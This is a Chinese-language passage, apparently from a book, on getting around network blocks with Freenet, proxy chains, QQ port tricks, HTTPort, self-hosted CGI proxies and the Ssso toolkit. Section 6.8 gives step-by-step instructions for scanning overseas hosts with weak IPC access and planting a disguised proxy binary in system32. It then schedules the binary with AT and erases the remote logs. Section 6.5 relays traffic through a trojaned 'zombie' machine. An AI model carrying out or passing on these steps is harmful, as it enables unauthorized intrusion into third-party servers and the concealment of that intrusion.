虽然自由网的安全性远远超过一般的PROXY上网、SafeWeb或httpport等机制，建议读者持这样的态度：尽管自由网采用一定程度的安全技术，但也是相对的，不可能是100%的安全；所以一定要保持警惕，不要轻心。

- 4. 可行性

自由网是目前突破网络封锁的有效途径，但在目前的开始阶段，首先需要建立大量的服务器，同时介绍自由网的使用方法，这就需要共同努力。

- 5. 自由网使用方法：Windows（95/98/NT/2000/ME）（参见下面的详细说明。）

  - 1）你的电脑上应安装有Java Runtime Environment，如Sun's JRE。不论是哪种版本，必须兼容Sun Java 1.1的标准。如无Java，先下载安装Java，再安装Freenet。在DOS窗口输入java或jview，回车（Return），看看输出的是什么。如果输出的是Java的各种选择，说明Java一切正常。
  - 2）从其他可靠网址下载Freenet_setup0.3.8.1.exe（或其他版本），放在合适的文件夹内，比如C:\temp。
  - 3）启动下载的exe文件。用回车（Return）回答所有问题。Freenet setup将生成一个新的文件夹freenet。
  - 4）启动自由网的服务器。
  - 5）服务器运行后，打开FPROXY，你便可用IE或Netscape通过http://localhost:8081投放或索取文件。也可执行`finsert`或`frequest`来投放或索取文件，或直接输入以上命令来得到帮助。

### 二、自由网安装使用说明

### 1. 安装Java运行环境（Java Runtime）

在你安装自由网之前，必须先下载安装一个特殊的程序叫“Sun Java Runtime Environment”。如果没有它，自由网就不能正常运转了。如果你以前就已经安装了这个Sun公司的Java Runtime Environment，你可以跳过这一步。

要安装“Java Runtime Environment”请登录这里（http://java.sun.com/j2se/1.3/jre），选择“从当前位置运行这个程序”来安装（你也可先下载保存，然后再直接运行这个下载的程序。如果不从网上下载，也可以找光盘安装这个程序，只要安装了就行）。

当下载结束后，这个Java Runtime Environment将开始安装，接下来按它简单的指南并按照默认值来安装即可。

### 2. 下载自由网软件

- 下载地址：
- http://freenetproject.org/index.php
- https://freenet-china.org
- http://freenet.sourceforge.net

### 3. 安装自由网

请仔细按照下面的步骤一步步来。

当自由网安装程序开始后，你看到的第一个画面就是安装选项窗口。现在，如果你的计算机使用专线连接互联网就选择“Start Freenet with Startup”，不要选择“dial-up networking”（拨号上网）。注意：一些DSL或cable modem连接在Windows设置为“dial-up networking”（拨号上网）。

接下来是一个选择。你要告诉自由网如何去找到“Java Runtime Environment”，也就是刚才你安装的那个。你选择了正确的“JavaSoft”后点击“Update Settings”。

现在你将为自由网和互联网的连接选择一个端口（如果你不知道什么是端口，不要紧，自由网会自动为你选择一个端口）。一般不用更改，除非你的端口被防火墙锁住，又无法打开才去更改端口。连接方式（connection type）是重要的选项。你最好选择这个“拨号上网”选项，除非你在LAN，或者直接连接在互联网上。接着，你会看到一个DOS窗口和一些运行命令。请耐心等一会，一般不超过1分钟，然后它就自己关掉了，安装也完成了。

### 4. 运行自由网

运行自由网非常简单。首先，确认你已经在互联网上了。然后双击你桌面上或菜单中的兔子图标运行自由网。不像其他程序，自由网在开始运行时不会显示一个窗口画面，它只是在幕后运行，并连接自由网络的其他计算机。

### 5. 使用自由网

要用自由网，你只需双击任务栏右下角的兔子图标，选择Freenet Gateway，就可以自由并秘密地下载和上传文件了。但这里有几点说明：

自由网完全不同于其他文件共享网络。任何你想出版共享的文件不只是保存在你的计算机里。你的文件会被加密，然后发送到任意许多其他的计算机中。这样，你的计算机即使关掉或者不在网络上，其他的人仍然能得到你上传的文件。而且，在自由网，任何组织都不能阻止你去阅读和上传文件。

老的文件共享技术如Gnutella和Napster，它们会很容易监视你所做的一切。如果你上传一个文件，你就要让人知道你的姓名、地址、电话等。当然，如果你下载一个文件，大家仍然会发现是谁下载的这个文件，这可能让你暴露并受到伤害。但自由网就不同。如果你在自由网公开出版一个文件，它不可能让别人知道是你公开出版的。如果你去阅读查看一个文件，别人也几乎不可能看到是谁在要求这个文件。

谁都不可能控制和管理自由网。自由网是一个匿名网络，并且是每天都在飞速扩展并越来越复杂的网络。这种独特的结构让自由网程序的作者都不可能来控制。自由网站点的操作员和用户可在任意地方操作存储信息文件。你无法了解他人存放在你机器上的加密文件备份，如同你发送给其他机器一样，而且占用的硬盘空间很少，你也可以更改空间大小。

### 三、SYGATE与WINGATE等共享软件下怎样使用自由网

###### Wingate

- 1. Wingate是个PROXY软件，所以必须将自由网安装在Wingate的server机上。注意：安装完以后，要右击那个自由网兔子小图标，选Configure，然后选FPROXY，将原来的端口8080换成8081，要与Wingate上已有的任何端口都不冲突，也不要与ISP服务商（本地中国电信等）提供的PROXY端口冲突。
- 2. 然后，在局域网的任何一台机上，输入server的网址，加上端口就行，比如：http://192.168.0.1:8081/ 你就会看到这个Freenet Gateway的界面了。

###### Sygate

SYGATE其实是个软路由，所有用这些软路由上网的局域网内，任何电脑都可以直接上网。所以，直接在你自己的电脑上安装自由网，然后就可以到处参观了。设置与上面一样，注意FPROXY端口设置不要冲突就行。

## Jproxychain

Jproxychain是用Java编制的代理服务器调度软件，只有12K大小，别看它体积苗条，但本事可不小。把下载来的jproxychain.zip解压缩到一个临时目录，里边还包含一个jproxychain.zip和作者对这个压缩包的数字签名文件。我用PGP软件验证确实是作者的原始作品后，解开里面的jproxychain.zip到随便一个工作目录，只有5个文件，是不用安装的绿色软件，不错。

首先按照readme.txt中的步骤下载并安装Java运行环境，因为我用的是Windows 2000，所以不用重启计算机。

我想登录已经被封的网站，怎么办呢？先按readme.txt方法建立一个最佳代理链。有人会问：为什么要通过代理链上网呢？因为它既能突破网络封锁，又能使网络追踪变得困难，安全第一呀。

双击jproxytool.bat文件后，出现一个“#”符号等着我输入命令，我按照readme.txt中的例子，敲入了download命令，大约5秒钟后，从网上下载了100个最新的代理服务器列表。

其实你可以从http://www.ufasoft.com/socks/proxy.dat手工获得同样的列表，大约1000多个，然后手工导入server.conf配置文件中。只是由于包含了许多陈旧的、已经失效的代理，下一步验证会浪费很多时间。我发现这个网站已经很少更新了，不知道为什么。你可以从自己找得到的最新代理列表手工导入，但它的格式不能直接导入，必须删除包括@以后内容，或者只保留代理服务器的IP或域名来让软件自动验证类型和端口号。

## 6.5 突破限制享受QQ

通常学校和单位为了提高员工的工作效率，会禁止在工作时间用QQ。采用的手段一是从经济上制裁，如发现一次罚款XX元之类；二是从技术上封锁，例如在网关上做些限制。由于QQ用的是UDP协议，默认用4000端口与外界通信，因此，在网关上把源端口是4000的UDP包丢弃就可以实现封闭QQ的目的了。我们公司的网关就是这样干的，并且把源端口是4000～4009的UDP包都丢弃。如果要上QQ那就要自己想办法了。下面为你介绍3种突破网关限制的方法。

#### 一、简单突破

突破限制原理：QQ默认用4000端口传送消息，如果4000被占用的话，那么它就会用4001，以此类推。OK！我们在启动QQ之前，先把4000～4009端口都占用掉，那么QQ启动的时候，就会顺理成章地使用4010端口，如此就可以冲破网关限制用QQ了！

所需工具：如何把4000～4009端口都占用掉呢？用黑客随身工具“小猪快跑”就可以（下载地址：http://minisql.yeah.net）。该软件能把你的计算机伪装成FTP、HTTP、POP3、SMTP、TELNET服务器，也能伪装成中了各种木马，欺骗对方入侵你的计算机。在程序主窗口中可以清楚地看到对方入侵的过程，并留下对方的IP地址。在你填入木马所用端口时，填入4000～4009就可以把这些端口全部占用掉！

具体办法：在“小猪快跑”的主界面中点击“端口设置”，选“自定义木马欺骗端口设置”，进入“木马欺骗端口设置”对话框。在“木马欺骗端口设置”界面上用鼠标选中“端口1”，“端口数”填QQ默认传送消息端口4000，然后再点击“端口2～端口10”，分别填入4001～4009，其他不用填，点击“设置完毕”退出。现在回到“小猪快跑”的主界面，点击“开始监视”即可（图6-5-1）。这样，4000～4009端口就被占用了！现在就可以使用QQ了，和网关说ByeBye吧！


图6-5-1

#### 二、高级突破

用“小猪快跑”之类的工具仅仅是临时解决办法，要想彻底解决这个问题还要想其他办法。一个念头出现在我头脑中：既然学校或单位可以通过HTTP协议访问网站，那么我们为什么不可以利用HTTP协议访问一台提供Socks 5服务的服务器，而这台服务器将我们发送的HTTP数据包转化为UDP数据，再发送给QQ服务器，进行QQ信息的传送呢？这样，就可以通过HTTP协议使得QQ与其服务器进行数据交换。现在关键在于找到一个提供数据转换的Socks5服务器。

SocksOnline就是这样一款可以实现我们以上要求的软件。大家可以到www.waysonline.com下载，目前最新版本为SocksOnline XP，大小为320KB。

第一次运行SocksOnline时会出现账号设置界面，如图6-5-2所示，任意填即可，只要账号不重复，使用中不会有什么影响。填写完毕后进入程序界面，在“设置”菜单中选择“系统设置”，设置端口，如图6-5-3所示，默认为1080。


图6-5-2

图6-5-3

接下来选择“通信设置”选项，填写你所在学校或单位的代理服务器地址及密码，其中的推荐选项可以自动完成设置，如图6-5-4所示。

然后是“通信服务”选择，选择自动即可。接下来设置最后的SocksOnline选项，选择80 HTTP WEB就可以了，如图6-5-5所示。这样就完成了对SocksOnline的基本设置。


图6-5-4

图6-5-5

下面我们还要对QQ进行设置。右键点击屏幕右下角的QQ图标，选择“系统参数”设置，找到“网络设置”，如图6-5-6所示。切记其中的代理服务器地址要填写为：127.0.0.1，端口1080，或者代理服务器地址为：localhost，端口为1080。

配置完毕，再次运行SocksOnline，然后启动QQ登录，你会发现自己可以突破限制上QQ了！

#### 三、另类突破

下面再为你介绍另外一种方法，这种方法很另类：你需要一台可以不受限制自由上网的电脑，当然它不必是属于你的（如果是你的，就没有必要再介绍突破限制的方法了，使用这台不受限制的电脑就可以了）。然后通过我们要介绍的SuperAgent来突破学校或单位的限制。

SuperAgent是一个端口重定向工具，它可以改变你发送请求的数据协议类型。看到这儿，你想到了什么对，就是可以通过它来突破网关的限制使用QQ！众所周知，我们所在的学校或单位正是由于屏蔽了UDP协议，导致我们无法使用QQ。通过SuperAgent就可以突破这个限制，从而自由自在地使用QQ。

SuperAgent运行在命令提示符或MS-DOS下，先来熟悉一下它的界面。打开命令提示符（在Windows 98下则进入MS-DOS方式），转到SuperAgent的目录下，键入SuperAgent；会出现如图6-5-7所示界面。

图6-5-6  
图6-5-7

前面我们提到过，用SuperAgent突破限制上QQ必须有一台不受限制的主机存在，比方说一台受你控制的“肉鸡”（中了木马或利用漏洞被你所控制）。用SuperAgent突破限制的原理是：本地机与肉鸡通信过程中使用的是TCP协议，而肉鸡和QQ服务器间的通信用的是UDP协议，这样就突破了学校或单位中对UDP协议的屏蔽，使得我们可以无拘无束地使用QQ。

下面正式开始。首先要在肉鸡上装一个SuperAgent，然后想办法让它执行命令：`superagent -u 202.104.129.253 8000 4000 5000`，这里的202.104.129.253是腾讯QQ服务器的地址，从QQ中可以查到。然后在我的本机上输入：`superagent -t xxx.xxx.xxx.xxx 5000 8000`，接着在QQ的系统设置里，把服务器地址设置为127.0.0.1，端口保持不变，仍是8000，这样就把我的机器伪装成了QQ服务器。数据转发过程为：本机端口8000→肉鸡端口5000→肉鸡端口4000→腾讯QQ服务器端口8000。

### 6.6 二次代理也疯狂

上网的时候常常有朋友问我一些关于在公司和教育网内部上网使用代理服务器突破网关的问题，为了解决这些问题，最近我研究了一下二次代理服务器。代理服务器大家都很熟悉，就是个人网络和因特网服务商之间的中间代理机构，它负责转发合法的网络信息，并对转发进行控制和登记。今天我介绍一下大家不太熟悉的二次代理服务器。

#### 一、基础篇

什么叫做二次代理呢？二次代理的意思是你在访问网络资源的时候是通过两层（或者多层）代理服务器，也就是说你同时可以使用两个（或者多个）代理服务器进行网络资源的访问，你的数据是经过了两层（或者多层）代理服务器后才到达最终目的服务器的。使用二次代理的好处是什么呢？

首先，它更安全地隐藏使用者的真实IP地址。大家都知道，现在上网暴露自己的IP是很不安全的，所以大家都使用代理服务器，想攻击你的人很可能通过一些方法来获得你的真实IP，但是你使用了二次代理，他们就很难得到你的真实IP了。

其次，它可以帮助一些教育网和公司内部上网的朋友突破局域网关的各种限制，访问自己需要访问的网络资源，比如说在教育网上使用ICQ和MSN。

#### 二、实战篇

好了，现在就以笔者在教育网内部的使用情况为例，介绍二次代理的使用。笔者是在宿舍通过校园网的代理服务器上教育网的，虽然是免费上网，但遗憾的是没有教育网以外的访问权，而且上网必须在IE内设置校园网的代理服务器才能实现教育网的访问（注：教育网可以访问国内大多数的网络资源，但是不能访问国外的网络资源）！

如图6-6-1所示，我的Hotmail信箱里还有很多重要的信件等待回复，我漂亮的美国MM还在ICQ上等我，一大堆的工作伙伴也要靠MSN联系，这个怎么办？这就必须使用二次代理了。二次代理的设置有很多方法。

图6-6-1

- 第一种方法：首先我们在IE里设置本地校园网的第一级代理服务器，以我们学校为例是“192.168.10.1:3128”，然后打开Tencent Explorer（就是QQ带的那个浏览器，相信现在没有哪个电脑上没有这个，以后我们就简称它为TE），点击“工具→WWW代理→代理设置”，设置校园网网外的教育网代理服务器。这样，最简单的二次代理服务器就设置成功了！嘿嘿，有点投机取巧的味道，不过这也要谢谢腾讯公司，个人认为他们的浏览器真的很不错，虽然很多人不喜欢它（图6-6-2、图6-6-3）。

图6-6-2  
图6-6-3

我们可以使用这样的二次代理自由访问国内外资源，和普通163宽带上网没有区别，我又能访问我熟悉的Hotmail信箱了：）

- 第二种方法：我们虽然可以通过这个简单的二次代理获得Internet访问权，但是MSN和ICQ还是没有办法访问。这个难不倒我，到网上下载了Jproxychain。Jproxychain是用Java编制的代理服务器调度软件，只有14K大小。别看它体积苗条，但它的本事可不小，比其他代理服务器调度软件功能更强，使用更灵活，保密性更好。Jproxychain是一个完全免费的稳定可靠的代理调度软件，可以运行在任何支持Java的操作系统中；可以调度包括Http、Socks4、Socks5所有种类的代理服务器，还可以穿越多个代理服务器链访问目的站点；客户端全面支持微软IE 6.0的普通Http协议和加密Https协议，其他浏览器应该也能工作（未测试：-）），并支持绝大多数的下载工具。

把下载来的jproxychain.zip解压缩到一个临时目录，里边还包含一个jproxychain.zip和作者对这个压缩包的数字签名文件。我用PGP软件验证确实是作者的原始作品后，解开里面的jproxychain.zip到随便一个工作目录，只有5个文件，是不用安装的绿色软件，不错。

| 文件 | 说明 |
|---|---|
| jproxychain.bat | 代理调度服务程序 |
| jproxytool.bat | 代理列表管理工具 |
| jproxychain.jar | 本程序Java类库 |
| server.conf | 配置文件 |
| readme.txt | 使用说明 |

- 使用方法：
  1. 安装Java运行环境。
  2. 用代理列表管理工具生成最佳代理链。

首先按照readme.txt中的步骤下载并安装Java运行环境，因为我用的是Windows XP，所以不用重启计算机。

双击并运行jproxytool.bat，出现一个类似Unix超级用户命令行的提示符：

```
#
```

等待输入命令，随便打入几个字符，如：abc，按回车。由于abc命令不存在，所以它提示你正确的命令列表，如图6-6-4所示。

图6-6-4

- 它们的用途如下：
  - `download`：从多个网站下载很多最新代理列表。
  - `load`：调入server.conf的内容作为当前配置。
  - `save`：把当前配置保存到server.conf文件中。
  - `verifyall`：根据通用网址验证所有的原始代理并分类和按速度排序；主机和端口改用冒号分隔，若为默认80端口，则可以不带端口号。
  - `makechain`：根据特定的网址反向分析并得到最佳二级代理链。
  - `setport`：设置本地端口号。
  - `origin`：显示原始代理列表。
  - `http`：显示验证通过的http代理列表。
  - `socks4`：显示验证通过的socks4代理列表。
  - `socks5`：显示验证通过的socks5代理列表。
  - `chain`：显示验证通过的最佳代理链。
  - `port`：显示本地端口号。
  - `quit`：退出。

由于我们是内网，不可能通过它下载和配置代理服务器，那我们就自己配置代理。打开server.conf，在bestproxychain下填上相应的代理服务器链，例如我这里填的是“http:192.168.10.1:3128;http:202.38.124.241:3128;socks5:64.19.28.51:1080”，把端口号port改为“9999”，保存！然后执行jproxytool.bat文件后，果然出现一个类似Unix的#符号等着我输入命令。输入load，把刚才保存的成果调入内存，我敲入chain显示了一下代理链是什么（没什么必要，只是想看看它们），然后存盘，退出。赶快上网冲浪吧，我已经迫不及待了。双击jproxychain.bat后，提示Waiting on port 9999，表明代理调度程序已经在工作了。启动我的IE，设置IE的代理服务器：主机填入127.0.0.1，端口号填入9999（图6-6-5）。

试试访问Hotmail，成功了！哈哈，别急，再试试MSN和ICQ，它们可是都支持Http代理的，在相应位置填入127.0.0.1，端口是9999，成功了！又看到了我可爱的美国MM了……

- 第三种方法：说到这里，我们已经成功地突破学校校园网的各种限制，实现了正常Internet上网的全部功能。但是还有一些问题，有的朋友在公司局域网内部上网，为了控制员工的上网权限和费用，公司给的代理服务器是有账号和密码的，上面两种方法都不能填账号啊！怎么办？那就要试试我们的法宝了——HTTPort。

它是一个能提供二次HTTP代理的软件，它能让数据通过你所设定的本地网内部的HTTP代理服务器连接到外网上的代理服务器，然后再通过这个二次代理服务器连接到目的地。它支持基于TCP传输的软件，如电子邮件、IRC、新闻组、浏览器、FTP、Telnet、ICQ等（OICQ这种基于UDP传输的不行）。

HTTPort能通过代理服务器连接到外网的主机上，并把这个连接映射到本机的一个由用户指定的端口上。随后设置你的软件，让它们连接到127.0.0.1:xxxx，就能连接到外网的主机上了。使用软件的这个功能可以映射外网中的HTTP二次代理、POP3、SMTP、新闻组服务器等平时无法连接到的主机。另外，HTTPort在映射TCP/IP端口的同时还带有一个内建Socks4服务器，地址为127.0.0.1:1080，可以通过它代理支持Socks4的软件。HTTPort运行时将把这个连接映射到本机的一个由用户指定的端口上，然后设置你所有基于HTTP协议的软件，通过映射出的代理服务器`127.0.0.1:xxxx`连接就行了！首先我们下载HTTPort的汉化版，解压缩到任意目录，也是一个绿色软件。（图6-6-6）（图6-6-7）我们执行httport.exe，在主机名那里设置成我们网内的代理服务器，如“192.168.10.1:8080”，选中身份验证，填入我们的用户名和密码，用户代理选择“IE5.0”，通过模式“远程主机”，再设置端口映射。在“外部HTTP代理的本地端口”设置一个本地没有打开的端口，如“1111”，分别设置远程主机和端口为外网能访问的代理服务器，点开始！设置你的IE代理为127.0.0.1:1111，试试访问一下hotmail.com，嘿嘿，成功了！~

- 第四种方法：如果以上方法都不能访问，那你只能试试页面二次代理了。国外提供相关服务的不少，而且大多支持SSL，可是国内提供相关服务的实在是太少了。比较出名的页面二次代理软件是cgiproxy。它设置简单，占用系统资源小，但由于是服务器设置软件，本文就不多叙述了。有兴趣的朋友可以去它的网站`http://www.jmarshall.com/tools/cgiproxy/`看一看，大家可以试一试这个公布的二次代理地址`http://chinaproxy.2best.cc/`，支持教育网的哦！有兴趣的朋友也可以参照笔者个人主页的相关文章，自己做一个页面二次代理试试！

#### 三、总结篇

其实网上相关的二次代理设置的方法和软件还有很多，比如TCP2HTTP。TCP2HTTP是具有sock2http、httport、sockcap32的所有功能的一个软件，并且还具有它们没有的功能。

- TCP2HTTP功能如下：
  1. TCP2HTTP让用户通过TCPMAP，可以使用FTP、POP3、Socks5、Telnet等TCP协议的应用程序通过firewall。
  2. 增加Http Proxy的权限检查。
  3. 支持多个Http Proxy（如果Proxy Server没有Log，可在`PROXYS.ini`里保存你的Proxies；`;`是注释符号）。
  4. 支持Http no cache。
  5. 增加Http proxy的权限检查。
  6. 提供Dragdrop功能，你不需要改变任何配置，自动帮助你的应用通过TCP2HTTP连出Firewall。
  7. 提供数据拷贝（Ctrl+C）。

有兴趣的朋友可以下载研究一下，这里我们就不多重复了！我们在本文里没有谈到涉及代理上QQ的问题，不过既然我们有了HTTP代理服务器，上QQ当然就不是难事了，可以下载Socks2HTTP，把HTTP代理转换成Socks5代理就可以了。这样的文章有好多，我就不多重复了，有兴趣的朋友可以到笔者的个人主页去看看相关文章！

笔者在这里提供的方法并不一定能保证突破所有的网关设置，因为局域网的权限设置和管理员的网关限制软件各不相同。不管怎么样，希望大家在遇到困难的时候要多动动脑筋，多问问高手，相信没有解决不了的难题！

文中所涉及的所有软件在笔者的网站：中国代理网（www.chinaproxy.net）均有本地下载，本站论坛经常公布各种国内外的代理服务器，欢迎大家就使用代理当中的各种问题去本站论坛与笔者和各路代理爱好者交流！

### 6.7 打造免费加密的代理服务器

随着网络的蓬勃发展和大家对网络安全的重视，好多朋友也开始在上网的时候使用代理服务器。熟悉代理服务器的人都知道，网络上公布的免费代理服务器并不很安全，代理服务器的管理员可以轻松地监视你的一举一动，而且这样的代理服务器很不稳定，经常失效！我们可不可以拥有一个属于自己的加密代理服务器呢？很多朋友一下就想到了入侵，但是这个很危险。特别是一些教育网的朋友，要知道入侵国内主机属于违法行为！所以今天我就教大家使用自助冲浪这款软件，把自己的主页服务器打造成属于你自己的免费加密代理服务器的方法！

自助冲浪目前的最新版本是3.0，它全面支持CGI、PHP、ASP和JSP空间。也就是说你的个人主页必须支持CGI、PHP、ASP和JSP等脚本服务，否则是不能使用的！软件采用Delphi+CGI技术编程，将生成的冲浪脚本上传到自己的个人主页空间或虚拟主机中，没有黑客嫌疑，不用担心被人发现后关闭服务；一旦上传可以永久使用。为防止数据通信被人窃听，数据传输采用128位密钥的XTEA加密算法和256位密钥的RC4加密算法，加密强度和SSL相当。为防止网络过滤程序的追踪，自助冲浪定制的冲浪参数都是杂乱的随机字符串，甚至连文件名都是由杂乱的随机字符串组成的，没有可以过滤的字符串特征，使用者更加安全。

### 一、拥有一个支持CGI、PHP、ASP和JSP的个人主页空间

该空间必须能运行CGI、PHP、ASP或JSP 4种脚本中的一种。一般的虚拟主机都支持这些脚本，但是免费的空间就不多，不过也有一些！这一步最困难，可以用搜索引擎搜索“免费 空间 攻略”等关键词，或到论坛发帖子寻求有经验的高手帮助。

#### 二、启动自助冲浪，生成冲浪钥匙和脚本

- 1. 如果不是CGI空间，可跳过此步骤。  
  配置Perl绝对路径，下面为典型的情况：

```text
UNIX: /usr/bin/perl 或 /usr/local/bin/perl
WINDOWS: /Perl/bin/perl
```

空间提供商会提供这方面的信息。你也可以直接询问他们的管理员。

- 2. 配置脚本所在目录。下面为典型的情况：

```text
CGI: http://你的主页空间/cgi-bin/
PHP: http://你的主页空间/
ASP: http://你的主页空间/
JSP: http://你的主页空间/
```

- 3. 配置脚本扩展名。下面为典型的情况：

```text
CGI: .cgi 或 .pl
PHP: .php 或 .php3 或 .php4
ASP: .asp
JSP: .jsp
```

点击“生成冲浪钥匙和脚本”按钮，输入一个冲浪钥匙名称（如图6-7-1所示），可以立即生成一个自助冲浪脚本（如图6-7-2所示）。把生成的自助冲浪脚本上传到你申请的空间，很多申请站点会提供很方便的上传界面，或用CuteFTP上传工具上传。

生成的冲浪钥匙用登录口令作为密钥，加密保存在同一目录下的key.ini文件中，如果没有正确的口令，谁也不知道冲浪钥匙的内容。如果想删除当前的冲浪钥匙，可以在左侧的冲浪钥匙列表中选中它，然后点击鼠标右键，在弹出菜单中执行“删除当前的冲浪钥匙”命令，则会删除这个冲浪钥匙。如果想保存当前的冲浪钥匙，可以在左侧的冲浪钥匙列表中选中它，然后点击鼠标右键，在弹出菜单中执行“保存当前的冲浪钥匙”命令保存当前配置。如果想修改口令并重新加密，可以在左侧的冲浪钥匙列表中点击鼠标右键，在弹出菜单中执行“修改口令并重新加密”命令，即可修改口令并重新加密所有的冲浪钥匙。

#### 三、设置工作端口，一般用默认值即可

如果需要通过代理访问，还要设置一个HTTP代理服务器。如果你有MultiProxy或Jproxychain等代理调度软件，也可以设置成它们的地址和端口号。

使用代理的原因有两个：一个是不能直接访问你的主页空间，必须借助代理帮忙；另一个原因是虽然能直接访问，但想进一步增加匿名度。通过代理访问会减慢数据传输速度。点击“运行”按钮开始工作。

#### 四、给浏览器和下载工具设置代理

好了，这下我们就拥有了一个主机为127.0.0.1（如图6-7-3所示）、端口号为自助冲浪的工作端口号的加密代理服务器。

除了你谁也不能使用它，只要上网的同时打开自助冲浪软件并执行，然后就可以愉快地上网冲浪或下载文件了。目前可以支持CuteFTP、网络蚂蚁和网际快车等下载工具，而且加密性极高。原来学校防火墙限制不让访问的一些音乐和下载网站，使用这样的代理，现在也可以正常访问了！

### 6.8 用 Ssso 批量制作代理服务器

Ssso 代理远程安装工具包是 Stunnel + SOCKS5 + SocksCap + OpenSSL 的缩写，是突破网络封锁的有力工具。它工作的原理是让国内上网的电脑通过一条高强度加密（SSL）的数据通道访问被屏蔽的海外网站（图6-8-1）。


图6-8-1

Ssso 代理服务器的特点：安全——采用无法破译的 SSL 方式加密，而且证书可以自己随时更换；多用——可以用来上网浏览，在 QQ、ICQ、MSN、FTP、SMTP 等程序中使用；隐秘——远端解析域名，安全证书自定，保护上网者隐私。

这次我们使用的是 Ssso 代理远程安装工具包 V5.1 大众版，下载地址 http://nj.xrl.cc。安装后将在开始菜单创建一个程序组。下面就进入正题，开始制作我们的代理服务器吧！

首先，我们要创建自己的 SSL 证书，点击“开始→程序→Ssso Tool→创建证书”（一旦运行请不要中途终止，否则不仅不能创建证书，连原来的证书也会失效），程序将会问你以下问题：

- Country Name:（回答你的国家名称，必须是两个字母，如美国是 US，中国是 CN）
- State or Province Name:（回答所在的州或省的名称）
- Locality Name:（回答所在城市的名称）
- Organization Name:（回答所在机构、组织的名称）
- Organizational Unit Name:（回答所在的部门名称）
- Common Name:（回答服务器上网站的名称，如 www.abc.com）
- Email Address:（回答你的 E-mail 地址）

接下来证书会自动生成，并自动添加进 Ssso 工具包安装目录下的服务器端隐藏安装程序（s.exe）中。点击程序菜单中的“查看证书”，可以查看证书的信息。

此版内置了一个动态主机 IP 通知程序，服务器每次上线都会在你的 E-mail 信箱发送一封带有服务器当前 IP 地址的信件（你要首先设置接收信箱：在开始菜单运行“信箱设置”，按提示完成）。

在远程服务器安装 Ssso 代理，简单说就是首先搜索海外有 IPC 漏洞的服务器，然后把服务器端隐藏版程序 s.exe（实际上是改了图标的 bouncer.exe，较国内的 snake 代理更为稳定快速，默认安装端口为 443）上传到远端服务器的 system32 目录下运行。下面是使用 Ssso 工具包自带的 Ssso 伴侣在远端服务器安装的全过程：

- 1. 使用 Ssso 自带的“IPC 扫描器”对海外主机进行扫描，在“开始”和“结束”栏填写要扫描的海外 IP 段，点击“扫描”，不一会儿就会扫出大量有 IPC 漏洞的海外主机，保存有效结果备用（图6-8-2）。
- 2. 打开“Ssso 代理安装助手”，将搜索到的海外服务器 IP 填写到“基本设置——对方主机 IP”中（建议在开始前首先检查一下对方的 443 端口是否被占用），填写用户和密码，点击“IPC 连接”按钮（图6-8-3）。
- 3. 连接成功后，点击“上传文件——开始上传”，上传所需时间由你的速度决定。
- 4. 上传 s.exe 成功后，点击“设定计划——查看远程主机时间”，有时会得到两个时间，我们只用远程主机的本地时间，将这个时间再滞后几分钟（如得到远程主机的本地时间是下午 02:00，则填写 14:02，就是说要使用 24 小时制）填写到“计划在远程主机运行程序的时间”栏中，然后点击“下达远程命令计划”按钮。没有意外的话，时间一到，远程的服务器就会运行此命令安装 Ssso 代理。点击“查看远程计划任务清单（清单为空则表示已经运行）”按钮，可以查看下达的任务是否执行（实际上不过是图形化了的 AT 命令）。
- 5. 如果任务已经执行，我们就要对这个 Ssso 代理进行验证了，点击“验证 Ssso”，填写验证的端口，点击“验证 Ssso 代理”。成功的话，一个 Ssso 超级代理就做好了。
- 6. 点击“善后处理”，填写连接的 IP，清除远程主机日志和断开该 IP 的连接（考虑得很周到吧 ^_^）。
- 7. 在结果调度中您可以测试代理的状态，删除失效的代理，选用速度较好的代理来使用（图6-8-4）。


图6-8-2

图6-8-3


图6-8-4

这样，不需要太长时间我们就可以制造出大量的 Ssso 代理来。当你已经丰衣足食的时候，别忘了帮助一下还在四处寻找代理的朋友们哦。

### 6.9 Linux 网络中代理突破利器——Prtunnel 使用指南

Prtunnel 是一款非常实用的 Linux 网络中代理突破的应用软件。很多人都是通过一个 HTTP 或 SOCKS5 代理服务器使自己的电脑能访问互联网的。一般网络管理都习惯在 Linux 中使用 SQUID 构建安全的、稳定的代理服务器，在 Linux 内部网中的计算机可以通过 SQUID 代理服务器访问互联网上的资源。

Proxy Server 的工作原理是：当客户在浏览器中设置好 Proxy Server 后，你使用浏览器或者其他网络软件访问所有 WWW 站点的请求都不会直接发给目的主机，而是先发给代理服务器。代理服务器接受了客户的请求以后，由代理服务器向目的主机发出请求，并接受目的主机的数据，存于代理服务器的硬盘中，然后再由代理服务器将客户要求的数据发给客户。代理服务器的作用有 5 个：

- 1. 提高访问速度。
- 2. Proxy 可以起到防火墙的作用。
- 3. 通过代理服务器访问一些不能直接访问的网站。
- 4. 安全性得到提高。
- 5. 方便对用户的管理。

因为客户要求的数据存于代理服务器的硬盘中，因此下次这个客户或其他客户再要求相同站点的数据时，就会直接从代理服务器的硬盘中读取，代理服务器起到了缓存的作用。对热门站点有很多客户访问时，代理服务器的优势更为明显。

因为所有使用代理服务器的用户都必须通过代理服务器访问远程站点，因此在代理服务器上就可以设置相应的限制，以过滤或屏蔽掉某些信息。这是局域网网管对局域网用户访问范围限制最常用的办法，也是局域网用户为什么不能浏览某些网站的原因。拨号用户如果使用代理服务器，同样必须服从代理服务器的访问限制，除非你不使用这个代理服务器。

互联网上有许多开放的代理服务器，当客户在访问权限受到限制时，这些代理服务器的访问权限却是不受限制的。刚好代理服务器在客户的访问范围之内，那么客户通过代理服务器访问目标网站就成为可能。国内的高校多使用教育网，不能出国，但通过代理服务器，就能实现访问因特网，这就是高校内代理服务器热的原因所在。

无论是上聊天室还是浏览网站，目的网站只能知道你来自于代理服务器，而你的真实 IP 就无法测知，这就使得使用者的安全性得以提高。

通过代理服务器，用户可以设置用户验证和记账功能，对用户进行记账，没有登记的用户无权通过代理服务器访问 Internet 网，并对用户的访问时间、访问地点、信息流量进行统计。

